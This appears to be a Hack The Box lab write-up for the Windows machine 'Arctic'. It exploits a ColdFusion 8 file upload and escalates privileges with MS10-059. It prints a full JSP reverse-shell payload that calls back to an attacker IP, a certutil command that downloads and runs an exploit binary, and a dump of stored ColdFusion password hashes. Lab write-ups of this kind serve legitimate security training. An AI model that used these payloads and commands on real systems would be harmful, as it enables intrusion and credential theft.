



---
tags:
  - hack
  - windows
---
# HTB: [Arctic](https://app.hackthebox.com/machines/Arctic)

> [!tip]- Summary with Spoilers
> - **ColdFusion File Upload RCE**: I identified an open ColdFusion service on port 8500 and uploaded a malicious JSP file, which gave me a reverse shell as the `arctic\tolis` user.
> - **MS10-059 “Chimichurri” Local Privilege Escalation**: I confirmed the box was an unpatched Windows Server 2008 R2 (Build 7600). I transferred and ran the MS10-059 (Chimichurri) exploit, which escalated my privileges to `NT AUTHORITY\SYSTEM`.
> - **Post-Exploitation**: With SYSTEM access, I could explore files (like `password.properties`) and get total control over the server.

## Services

### TCP

```console
$ cat nmap_tcp-arctic.htb.txt
# Nmap 7.94SVN scan initiated Sat Aug 31 16:32:04 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-arctic.htb.txt arctic.htb
Nmap scan report for arctic.htb (10.10.10.11)
Host is up, received user-set (0.14s latency).
rDNS record for 10.10.10.11: t
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON          VERSION
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack ttl 127
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 16:34:34 2024 -- 1 IP address (1 host up) scanned in 150.00 seconds
```

#### 8500/tcp-fmtp?

Looks like ColdFusion?:

```console
$ curl http://t:8500
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>
```





#### 49154/tcp-msrpc

## Remote Code Execution

```console
$ python3 ./50057.py

Generating a payload...
Payload size: 1496 bytes
Saved as: 30df2b6cd92345a0b5e3a32482a0e38a.jsp

Priting request...
Content-type: multipart/form-data; boundary=94518146709143a7842fea4d108026d5
Content-length: 1697

--94518146709143a7842fea4d108026d5
Content-Disposition: form-data; name="newfile"; filename="30df2b6cd92345a0b5e3a32482a0e38a.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream dh;
    OutputStream tS;

    StreamConnector( InputStream dh, OutputStream tS )
    {
      this.dh = dh;
      this.tS = tS;
    }

    public void run()
    {
      BufferedReader ly  = null;
      BufferedWriter u4s = null;
      try
      {
        ly  = new BufferedReader( new InputStreamReader( this.dh ) );
        u4s = new BufferedWriter( new OutputStreamWriter( this.tS ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = ly.read( buffer, 0, buffer.length ) ) > 0 )
        {
          u4s.write( buffer, 0, length );
          u4s.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( ly != null )
          ly.close();
        if( u4s != null )
          u4s.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.14", 443 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--94518146709143a7842fea4d108026d5--


Sending request and printing response...


                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 0, "/userfiles/file/30df2b6cd92345a0b5e3a32482a0e38a.jsp/30df2b6cd92345a0b5e3a32482a0e38a.txt", "30df2b6cd92345a0b5e3a32482a0e38a.txt", "0" );
                </script>


Printing some information for debugging...
lhost: 10.10.14.14
lport: 443
rhost: 10.10.10.11
rport: 8500
payload: 30df2b6cd92345a0b5e3a32482a0e38a.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.11] 49278
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>

whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

```console
C:\ColdFusion8\wwwroot>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45
System Boot Time:          5/9/2024, 4:45:25
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 4.964 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.103 MB
Virtual Memory: In Use:    1.182 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

[MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri):

```console
C:\>certutil -urlcache -f http://10.10.14.14/Chimichurri.exe /users/tolis/ch.exe
certutil -urlcache -f http://10.10.14.14/Chimichurri.exe /users/tolis/ch.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
C:\ColdFusion8\runtime\bin>/users/tolis/ch.exe 10.10.14.14 4444
/users/tolis/ch.exe 10.10.14.14 4444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```console
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.11] 49473
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```

## Post-exploitation

Life after `root`.

Found another password I didn't end up using:

```console
C:\ColdFusion8\lib>type password.properties
type password.properties
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```



There are several other vectors for RCE and PE on this machine.
